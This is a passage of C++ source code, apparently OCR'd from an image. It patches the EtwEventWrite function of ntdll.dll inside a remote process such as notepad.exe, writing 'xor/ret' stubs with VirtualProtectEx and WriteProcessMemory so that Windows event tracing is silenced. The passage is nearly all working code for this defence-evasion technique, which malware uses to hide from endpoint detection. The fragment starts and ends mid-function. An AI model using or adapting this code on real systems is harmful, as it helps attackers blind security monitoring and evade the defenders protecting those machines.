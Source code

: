 ```cpp
        0x48, 0x31, 0xC0,       // xor rax, rax
        0xC3                    // ret
    };
#else
    unsigned char patch[] = {
        0x33, 0xC0,             // xor eax, eax
        0xC2, 0x14, 0x00        // ret 14
    };
#endif

    SIZE_T patchSize = sizeof(patch);
    DWORD oldProtect;

    // Change memory protection to PAGE_EXECUTE_READWRITE
    if (!VirtualProtectEx(hProcess, remoteFunctionAddress, patchSize, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        CloseHandle(hProcess);
        return FALSE;
    }

    // Write the patch to the remote process memory
    if (!WriteProcessMemory(hProcess, remoteFunctionAddress, patch, patchSize, NULL)) {
        VirtualProtectEx(hProcess, remoteFunctionAddress, patchSize, oldProtect, &oldProtect);
        CloseHandle(hProcess);
        return FALSE;
    }

    // Restore the original memory protection
    VirtualProtectEx(hProcess, remoteFunctionAddress, patchSize, oldProtect, &oldProtect);

    // Flush the instruction cache to ensure the new instructions are executed
    FlushInstructionCache(hProcess, remoteFunctionAddress, patchSize);

    CloseHandle(hProcess);
    return TRUE;
}

int main() {
    DWORD pid = getPIDbyProcName("notepad.exe");
    const wchar_t* dllName = L"ntdll.dll"; 
    const char* functionName = "EtwEventWrite";

    // Get handle to the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        printf("Failed to open target process.\n");
        return 1;
    }

    // Get the base address of ntdll.dll in the target process
    LPVOID moduleBase = GetRemoteModuleHandle(pid, dllName);
    if (moduleBase == NULL) {
        printf("Failed to find module base address.\n");
        CloseHandle(hProcess);
        return 1;
    }

    // Get the address of EtwEventWrite function in the local process
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    LPVOID localFunctionAddress = GetProcAddress(hNtdll, functionName);
    if (localFunctionAddress == NULL) {
        printf("Failed to find function address.\n");
        CloseHandle(hProcess);
```